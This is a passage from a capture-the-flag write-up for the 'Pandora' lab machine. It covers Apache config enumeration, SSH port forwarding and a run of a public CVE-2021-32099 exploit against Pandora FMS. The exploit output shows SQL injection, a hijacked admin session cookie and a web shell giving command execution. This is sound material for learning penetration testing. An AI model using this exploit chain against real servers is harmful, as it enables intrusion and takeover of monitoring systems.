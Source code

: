 Enumerate enabled sites under apache:

```console
daniel@pandora:/dev/shm$ cat /etc/apache2/sites-available/pandora.conf
<VirtualHost localhost:80>
  ServerAdmin admin@panda.htb
  ServerName pandora.panda.htb
  DocumentRoot /var/www/pandora
  AssignUserID matt matt
  <Directory /var/www/pandora>
    AllowOverride All
  </Directory>
  ErrorLog /var/log/apache2/error.log
  CustomLog /var/log/apache2/access.log combined
</VirtualHost>
```

Port forwarding: `ssh -N -L 80:localhost:80 daniel@$Ip`

- CMS Version: `Panroda FMS v7.0NG.742_FIX_PERL2020`

![image-20240207045435794](./Pandora.assets/image-20240207045435794.png)

**Exploit**: [CVE-2021-32099](https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated?tab=readme-ov-file)

```console
└─╼$ python sqlpwn.py -t 127.0.0.1
/home/qwe/.local/lib/python3.11/site-packages/requests/__init__.py:102: RequestsDependencyWarning: urllib3 (2.2.0) or chardet (5.2.0)/charset_normalizer (3.3.2) doesn't match a supported version!
  warnings.warn("urllib3 ({}) or chardet ({})/charset_normalizer ({}) doesn't match a supported "
URL:  http://127.0.0.1/pandora_console
[+] Sending Injection Payload
[+] Requesting Session
[+] Admin Session Cookie : t2rd63bsid99ijce6fga9dgl3c
[+] Sending Payload
[+] Respose : 200
[+] Pwned :)
[+] If you want manual Control : http://127.0.0.1/pandora_console/images/pwn.php?test=
CMD > id
uid=1000(matt) gid=1000(matt) groups=1000(matt)
```